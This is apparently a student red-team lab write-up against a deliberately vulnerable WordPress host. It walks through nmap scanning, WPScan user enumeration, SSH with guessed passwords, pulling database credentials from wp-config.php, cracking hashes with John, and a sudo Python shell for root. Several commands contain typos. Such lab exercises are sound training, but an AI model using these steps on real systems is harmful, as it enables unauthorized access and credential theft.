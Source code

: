 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap ... `nmap -sV 192.168.1.110`
  !(https://github.com/Dornsbach/Final_Project/blob/2cb4e4d2784e5efad2b03b91cc428ec39f58b576/nmap.PNG)
```

This scan identifies the services below as potential points of entry:
- Target 1
  - 22/tcp ssh
  - 80/tcp http
  - 111/tcp rpcbind
  - 139/tcp Netbois
  - 445/tcp Microsoft-ds




The following vulnerabilities were identified on each target:
- Target 1
  - Vulnerable Word Press (wpscan user enumeration)
  - Weak user password
  - Misconfigured User Privileges leading to privilege escalation
  - Unsalted passwords


### Exploitation


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: `b9bbcb33ellb80be759c4e844862482d`
    - **Exploit Used**
      - WPscan was used from the attack machine to enumerate the users on the Target1 wordpress site
      - The Command use
        - `wpscan --url 192.168.1.110/wordpress/ -e u`
      - SSH'd into `192.168.1.110` using the user `Michael` guessed the weak password `Michael`
      - Navigated to /var/wwww/html/
      - Ran `nano services.html` and in the footer information found Flag1
![Flag1](https://github.com/Dornsbach/Final_Project/blob/2cb4e4d2784e5efad2b03b91cc428ec39f58b576/Flag1.PNG)

  - `flag2.txt`:`flag2{fc3fd58dcdad9ab23faca6e9a3e581c}`
    - **Exploit Used**
      - Flag2 was located while exploring `Target1` to find other potential useful files.
      - `cd ..`
      - `ls`
      - `nano flag2.txt`
![flag2](https://github.com/Dornsbach/Final_Project/blob/2cb4e4d2784e5efad2b03b91cc428ec39f58b576/Flag2.PNG)

 - `flag3.txt`:`flag3{afc01ab56b50591e7dccf93122770cd2}`
    - **Exploit Used**
      - During infiltration `wp-config.php` was found at `/var/www.html/wordpress`
      - `nano wp-config.php` and found the admin user is `root` and the password is `R@v3nSecurity`
      - `Crtl X` to exit nano.
      - `myspql --user=root --password=R@v3nSecurity -h 127.0.0.1` to enter the database
      - `showdatabases;` to view databases
      - `use wordpress;` to use the wordpress database
      - `select * from wp_posts;` to find flag3 and flag4 in wp_posts.
      - `select * from wp_users;` to find users and password hashes.
![dbusername](https://github.com/Dornsbach/Final_Project/blob/2cb4e4d2784e5efad2b03b91cc428ec39f58b576/databasepswrd.PNG)
![Flag3](https://github.com/Dornsbach/Final_Project/blob/2cb4e4d2784e5efad2b03b91cc428ec39f58b576/Flag3and4.PNG)

 - `flag4.txt`:`flag4{715dea6c055b9fe3337544932f2941ce}`
    - **Exploit Used**
      - Simple password and unsalted hash
        - Created a hash.txt that contained user `steven` hash `$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/` on attacking machine
        - Copied `Rockyou.txt` from `/usr/share/wordlists/rockyou.txt wp_hashes.txt` incase it is needed for another hash crack. 
        - Ran `john hash.txt --wordlist=rockyou.txt` and found that the password is `pink84`
        - Ran `-ssh steven@192.168.1.110` using pink84 as the password. 
        - Ran `sudo python -c "import pty;pty.spawn('/bin/bash')"` this gave Root privileges
        - `CD /root`
        - `ls` saw flag4.txt
        - `cat flag4.txt` to find the flag. 
        ![flag4](https://github.com/Dornsbach/Final_Project/blob/2cb4e4d2784e5efad2b03b91cc428ec39f58b576/Flag4.PNG)
